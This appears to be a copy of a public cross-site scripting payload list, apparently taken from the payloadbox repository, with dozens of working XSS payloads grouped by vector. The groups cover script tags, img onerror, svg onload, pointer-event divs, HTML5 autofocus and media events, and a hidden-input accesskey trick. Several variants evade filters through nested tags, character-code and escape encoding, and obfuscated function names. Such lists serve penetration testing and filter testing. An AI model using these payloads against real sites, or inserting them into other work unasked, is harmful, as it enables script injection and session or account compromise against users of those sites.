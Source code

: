 https://github.com/payloadbox/xss-payload-list

XSS PAYLOADS <3
<inpuT autofocus oNFocus​="setTimeout(function() { /*\`*/top['al'+'\u0065'+'rt']([!+[]+!+[]]+[![]+[]][+[]])/*\`*/ }, 5000);"></inpuT%3E&lT;/stYle&lT;/titLe&lT;/teXtarEa&lT;/scRipt&gT;
Basic payload

<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>
<script>\u0061lert('22')</script>
<script>eval('\x61lert(\'33\')')</script>
<script>eval(8680439..toString(30))(983801..toString(36))</script> //parseInt("confirm",30) == 8680439 && 8680439..toString(30) == "confirm"
<object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">

Img payload

<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>
<><img src=1 onerror=alert(1)>

Svg payload

<svgonload=alert(1)>

<svg/onload=alert('XSS')>

<svg onload=alert(1)//

<svg/onload=alert(String.fromCharCode(88,83,83))>

<svg id=alert(1) onload=eval(id)>

"><svg/onload=alert(String.fromCharCode(88,83,83))>

"><svg/onload=alert(/XSS/)

<svg><script href=data:,alert(1) />

<svg><script>alert('33')

<svg><script>alert&lpar;'33'&rpar;

Div payload

<div onpointerover="alert(45)">MOVE HERE</div>

<div onpointerdown="alert(45)">MOVE HERE</div>

<div onpointerenter="alert(45)">MOVE HERE</div>

<div onpointerleave="alert(45)">MOVE HERE</div>

<div onpointermove="alert(45)">MOVE HERE</div>

<div onpointerout="alert(45)">MOVE HERE</div>

<div onpointerup="alert(45)">MOVE HERE</div>

XSS using HTML5 tags

<body onload=alert(/XSS/.source)>

<input autofocus onfocus=alert(1)>

<select autofocus onfocus=alert(1)>

<textarea autofocus onfocus=alert(1)>

<keygen autofocus onfocus=alert(1)>

<video/poster/onerror=alert(1)>

<video><source onerror="javascript:alert(1)">

<video src=_ onloadstart="alert(1)">

<details/open/ontoggle="alert`1`">

<audio src onloadstart=alert(1)>

<marquee onstart=alert(1)>

<meter value=2 min=0 max=10 onmouseover=alert(1)>2 out of 10</meter>

<body ontouchstart=alert(1)> // Triggers when a finger touch the screen

<body ontouchend=alert(1)> // Triggers when a finger is removed from touch screen

<body ontouchmove=alert(1)> // When a finger is dragged across the screen.

XSS in hidden input

<input type="hidden" accesskey="X" onclick="alert(1)">

Use CTRL+SHIFT+X to trigger the onclick event